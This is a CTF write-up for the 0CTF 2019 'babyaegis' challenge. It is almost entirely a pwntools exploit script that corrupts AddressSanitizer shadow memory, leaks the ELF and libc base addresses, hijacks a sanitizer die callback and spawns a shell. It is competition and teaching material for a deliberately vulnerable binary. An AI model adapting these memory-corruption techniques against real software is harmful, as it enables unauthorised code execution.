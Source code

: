 # babyaegis

参考链接：

[https://www.anquanke.com/post/id/175556#h2-8 ]( https://www.anquanke.com/post/id/175556#h2-8 )
[https://github.com/balsn/ctf_writeup/tree/master/20190323-0ctf_tctf2019quals](https://github.com/balsn/ctf_writeup/tree/master/20190323-0ctf_tctf2019quals)
[https://ray-cp.github.io/archivers/0CTF_2019_PWN_WRITEUP#aegis](https://ray-cp.github.io/archivers/0CTF_2019_PWN_WRITEUP#aegis)

环境是`ubuntu18.04 libc2.27`

```python
from pwn import *

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[4], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def cmd(command):
	p.recvuntil("Choice: ")
	p.sendline(str(command))

def add(sz,content,id):
	cmd(1)
	p.recvuntil("Size: ")
	p.sendline(str(sz))
	p.recvuntil("Content: ")
	p.send(content)
	p.recvuntil("ID: ")
	p.sendline(str(id))


def show(idx):
	cmd(2)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
def edit(idx,content,id):
	cmd(3)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
	p.recvuntil("Content: ")
	p.send(content)
	p.recvuntil("ID: ")
	p.sendline(str(id))
def dele(idx):
	cmd(4)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
def secret(addr):
	cmd(666)
	p.recvuntil("Lucky Number: ")
	p.sendline(str(addr))

def main(host,port=10405):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./aegis")
		# debug(0x0000000001146E0)
	
	add(0x10,"A"*0x8,0x123456789abcdef)
	# 0x602000000000 >> 3 + 0x7fff8000
	secret(0xc047fff8008-4)
	# overwrite user_requested_size
	edit(0,'\x02'*0x12,0x123456789)
	edit(0,'\x02'*0x10+p64(0x02ffffff00000002)[:7],0x01f000ff1002ff)
	dele(0)
	add(0x10,p64(0x602000000018),0)
	
	# leak elf base
	show(0)
	p.recvuntil("Content: ")
	elf = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))-0x114ab0
	info("elf :" + hex(elf))
	# leak libc addr
	edit(1,p64(elf+0x347DF0)[:2],(elf+0x347DF0)>>8)
	show(0)
	p.recvuntil("Content: ")
	libc = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))-0xe4fa0
	info("libc :" + hex(libc))
	
	#write gets to sanitizerL20InternalDieCallbacksE
	edit(1,p64(elf+0xFB08a0)[:7],0)
	gdb.attach(p,"b *{}".format(0x10a38c+libc))
	
	cmd(3)
	p.recvuntil("Index: ")
	p.sendline(str(0))
	p.recvuntil("Content: ")
	p.send(p64(0x800b0+libc)[:7])
	p.recvuntil("ID: ")
	p.sendline(str(0))
	
	payload = "A"*0x1b7+p64(libc+0x10a38c)+'\x00'*0x100
	p.sendline(payload)
	p.interactive()

if __name__ == "__main__":
	main(args['REMOTE'])

```